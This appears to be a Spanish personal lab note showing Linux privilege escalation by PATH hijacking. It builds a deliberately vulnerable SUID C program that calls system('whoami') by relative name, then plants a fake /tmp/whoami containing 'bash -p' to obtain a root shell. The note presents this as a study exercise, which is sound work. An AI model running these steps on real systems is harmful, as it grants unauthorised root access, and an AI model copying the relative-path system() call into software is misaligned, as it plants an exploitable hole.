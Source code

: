 
apt install gcc
nano test.c

Scritp en C
	  `GNU nano 7.2                         test.c`                                   
`#include <stdio.h>`

`int main(){`
        `setuid(0);`
        `printf("\n[+] Actualmente somos el siguiente usuario:\n\n");`
        `system("/usr/bin/whoami");`
        `printf("\n[+] Actualmente somos el siguiente usuario:\n\n");`
        `system("whoami");`
        `return 0;`
`}`

utilizamos gcc test.c -o test
chmod u+s test
./test

vemos el output que nos da
![[Pasted image 20250419230237.png]]

lo que haremos es

echo $PATH
![[Pasted image 20250419230639.png]]

Esta variable de entorno la vamos a manipular de la siguiente manera

export PATH=/tmp/:$PATH

![[Pasted image 20250419230813.png]]
Esto hace que utilice primero tmp al inicio de la busqueda por prioridad
entonces crearemos un script whoami en el directorio tmp
asi elegira primero el whoami malicios de /tmp/ antes de llegar al original de /usr/bin

touch whoami
chmod +x whoami
nano whoami
          `GNU nano 7.2           whoami *`            
`bash -p` 


De esta manera ejecutamos el ./test anteriormente creado y eso hace que de manera paralela ejecuta un `whoami` que se ejecutara primero el del directorio /tmp/ ya que modificamos el orden de prioridad del `$PATH`
![[Pasted image 20250419231308.png]]


ESTO SE PUEDE HACER CON CUALQUIER BINARIO
